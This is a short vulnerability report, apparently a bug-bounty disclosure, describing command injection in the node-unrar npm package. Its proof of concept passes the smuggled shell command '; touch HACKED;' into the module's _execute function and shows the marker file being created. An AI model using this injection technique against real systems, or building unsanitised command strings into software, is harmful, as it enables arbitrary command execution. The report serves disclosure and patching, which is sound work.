 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var Unrar = require("node-unrar");
var rar = new Unrar("/path/to/file.rar");

rar._execute([], "; touch HACKED;", function () {});
```

2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:

```bash
npm i node-unrar # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created
